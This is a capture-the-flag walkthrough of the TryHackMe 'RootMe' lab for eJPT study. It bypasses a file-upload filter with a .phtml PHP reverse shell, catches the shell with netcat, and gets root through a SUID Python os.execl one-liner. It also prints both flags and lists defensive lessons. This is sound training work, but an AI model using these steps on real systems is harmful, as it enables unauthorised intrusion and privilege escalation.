

## Summary

**RootMe** is the third machine in the _Road to eJPTv2_ series and introduces two new techniques not seen before: **file upload filter bypass** and **privilege escalation via Python SUID**. Unlike previous machines where access came through exposed credentials or direct RCE, here we need to bypass an extension restriction to upload a reverse shell.

| Attribute      | Value                                                   |
| -------------- | ------------------------------------------------------- |
| **Platform**   | TryHackMe                                               |
| **Difficulty** | Easy                                                    |
| **OS**         | Linux                                                   |
| **Room**       | [RootMe](https://tryhackme.com/room/rrootme)            |
| **Skills**     | Web Enum, File Upload Bypass, Reverse Shell, SUID Abuse |

### 🎥 Video version



> If you prefer to follow the walkthrough step by step, keep reading. The video covers the same process in visual format.

### Tools used

- `nmap` — port and service enumeration
- `gobuster` — directory fuzzing
- `php-reverse-shell` — Pentest Monkey webshell (included in Kali)
- `netcat` — reverse shell listener
- `find` — search for SUID binaries

### Solution overview

1. Nmap reveals two ports: SSH (22) and HTTP (80) with Apache 2.4.41
2. Gobuster discovers `/panel/` directory (file upload panel)
3. The panel blocks `.php` extensions — bypassed by renaming to `.phtml`
4. Reverse shell uploaded successfully and executed from `/uploads/`
5. User flag found at `/var/www/user.txt`
6. SUID binary search reveals `/usr/bin/python` with SUID bit set
7. Python SUID abuse with `os.execl` to get root shell

---

## Reconnaissance

### Connectivity check

```bash
ping -c 1 10.201.73.204
64 bytes from 10.201.73.204: icmp_seq=1 ttl=60 time=144 ms
```

> **TTL=60** → target is **Linux**. Consistent with previous machines in the series.

### Nmap port scan

Initial sweep of all TCP ports:

```bash
nmap 10.201.73.204 -n -Pn -sS -p- --min-rate=5000 -oG allTCPports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Only two open ports. The reduced attack surface means the main vector is the web application.

Targeted scan with version detection and scripts:

```bash
nmap 10.201.73.204 -n -Pn -sS -sVC -p22,80 --min-rate=5000 -oN rootmescan.txt
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13
80/tcp open  http    Apache httpd 2.4.41 (Ubuntu)
|_http-title: HackIT - Home
| http-cookie-flags:
|   /: PHPSESSID: httponly flag not set
```

> **Key findings:**
>
> - **Port 80:** Apache with title "HackIT" — there's a web application to explore
> - **PHPSESSID without httponly flag** — the site uses PHP and cookies are accessible via JavaScript (relevant for XSS attacks in real scenarios)
> - **Port 22:** SSH active — no credentials yet

### Fuzzing with Gobuster

```bash
gobuster dir -u http://10.201.73.204 \
  -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 50 -x php,txt,xml,html,bak
    /index.php   (Status: 200)
    /uploads     (Status: 301)
    /css         (Status: 301)
    /js          (Status: 301)
    /panel       (Status: 301)
```

> **Key finding:** two interesting directories:
>
> - `/panel/` → file upload panel (exploitation vector)
> - `/uploads/` → directory where uploaded files are stored (needed to execute the shell)

The combination of upload panel + accessible uploads directory is the classic **file upload vulnerability** pattern.

---

## Exploitation

### File upload panel

We access `http://10.201.73.204/panel/` and find a file upload form.



The first attempt is uploading a PHP reverse shell directly — the panel rejects it with an error message indicating `.php` files are not allowed.

### File Upload Bypass: `.phtml` extension

Poorly implemented extension filters only block the most obvious extensions (`.php`). Apache can execute PHP code with other extensions like `.phtml`, `.php5`, `.phar`, among others.

We prepare the reverse shell:

```bash
# Copy the reverse shell included in Kali
cp /usr/share/webshells/php/php-reverse-shell.php .

# Rename
mv php-reverse-shell.php rev.php

# Edit IP and port (our attacking IP and listener port)
nvim rev.php

# Change extension to bypass the filter
mv rev.php rev.phtml
```

> **Why does `.phtml` work?** Apache executes as PHP any file whose extension is mapped in its configuration. `.phtml` is an alternative PHP extension that many basic filters don't include in their blacklist. This is an **incomplete file type validation** vulnerability.

We upload `rev.phtml` to the panel → the server accepts it.

### Reverse Shell

We set up a listener on our attacking machine:

```bash
nc -nlvp 4545
```

We navigate to the URL where the file was uploaded to execute it:

```
http://10.201.73.204/uploads/rev.phtml
```

```bash
connect to [10.13.93.83] from (UNKNOWN) [10.201.73.204] 53644
Linux ip-10-201-73-204 5.15.0-139-generic
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Shell obtained as `www-data`. We stabilize:

```bash
export SHELL=bash
stty rows 41 cols 184
```

> **Note:** on this machine `$SHELL` returns `/usr/sbin/nologin` (the `www-data` user has no assigned shell). That's why we manually export `SHELL=bash` so commands work correctly.

---

## Post-exploitation

### System enumeration

We review home directories to identify system users:

```bash
ls -l /home
drwxr-xr-x 4 rootme rootme 4096 rootme
drwxr-xr-x 3 test   test   4096 test
drwxr-xr-x 4 ubuntu ubuntu 4096 ubuntu
```

Three users: `rootme`, `test`, `ubuntu`. Home directories are empty, no useful information immediately.

### User flag

We search for `user.txt` across the entire system:

```bash
find / -type f -name user.txt 2>/dev/null
/var/www/user.txt
```

```bash
cat /var/www/user.txt
```

> **User flag:** `THM{y0u_g0t_a_sh3ll}`

Interesting: the flag is not in a user home directory but in `/var/www/`. This reinforces that the compromise vector was the web server.

---

## Privilege Escalation

### SUID binary search

Binaries with the **SUID bit** set run with the permissions of the file owner (not the executing user). If a SUID binary belongs to root and allows arbitrary code execution, we have direct escalation.

```bash
find / -perm -4000 2>/dev/null
/usr/bin/python2.7
```

From the entire list, one binary **should not have SUID**:

```
/usr/bin/python2.7
```

> **Why is this unusual?** Scripting language interpreters (Python, Perl, Ruby) with SUID are extremely dangerous because they allow executing arbitrary code with the owner's privileges. They should never have SUID on a production system. GTFOBins documents exactly how to abuse this.

### Python SUID abuse

Using Python to launch a shell that inherits the SUID privileges (root):

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```bash
# whoami
root
```

> **What does this command do?**
>
> - `import os` imports the operating system module
> - `os.execl("/bin/sh", "sh", "-p")` replaces the current process with a `/bin/sh` shell
> - The `-p` flag means "privileged mode" — the shell keeps the effective UID (root) instead of dropping to the real UID (www-data)

### Root flag

```bash
cd /root
cat root.txt
```

> **Root flag:** `THM{pr1v1l3g3_3sc4l4t10n}`

---

## Lessons learned

- **Single blacklist extension filters are insufficient** — Blocking only `.php` is a false sense of security. A robust filter should use a whitelist (only allow specific extensions like `.jpg`, `.png`) instead of a blacklist. In a real pentest, this finding would be a **critical** vulnerability.
- **An accessible `/uploads/` directory is the second half of the problem** — Uploading the file is just the first step. If the server doesn't serve uploaded files as executables or stores them outside the webroot, the impact is reduced. Here both conditions failed.
- **`find / -perm -4000` must be on your privesc checklist** — SUID binaries are one of the most common escalation vectors in CTFs and misconfigured real environments. Python, Perl, Vim, Bash with SUID are immediate red flags.
- **GTFOBins is your best friend for SUID** — When you find an unusual binary with SUID, GTFOBins (gtfobins.github.io) has the exploitation technique ready. Learn to use it as a reference, not just memorize commands.
- **The `-p` flag in shell is critical to maintain privileges** — Without `-p`, the shell drops the effective UID and you fall back to the real UID. A small detail with huge impact.

### For the eJPT

This machine exercises skills directly evaluated on the eJPT:

- Web enumeration with Nmap and Gobuster
- File upload vulnerability identification and exploitation
- Extension filter bypass
- Reverse shells from PHP webshells
- SUID binary enumeration
- Privilege escalation via SUID abuse

**Approximate solving time:** 25-35 minutes once you know file upload bypass techniques.

---

## References

- [RootMe — TryHackMe](https://tryhackme.com/room/rrootme)
- [GTFOBins — Python SUID](https://gtfobins.github.io/gtfobins/python/)
- [PayloadsAllTheThings — File Upload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)
- [Pentest Monkey — PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)
